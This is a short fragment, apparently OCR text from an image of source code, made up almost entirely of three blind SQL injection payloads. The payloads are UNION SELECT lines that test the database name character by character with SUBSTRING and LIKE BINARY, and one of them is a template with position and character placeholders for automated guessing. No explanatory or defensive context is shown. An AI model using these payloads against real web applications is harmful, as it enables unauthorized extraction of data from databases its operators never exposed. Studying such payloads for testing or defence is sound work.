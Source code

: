  UNION SELECT 1,2,3,4 WHERE SUBSTRING(database(), {position}, 1) = BINARY '{character}' -- -
 ' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY 'a%' -- -
 a' UNION SELECT 1,2,3,4 WHERE SUBSTRING(database(), 1, 1) = BINARY 'm' -- -
 
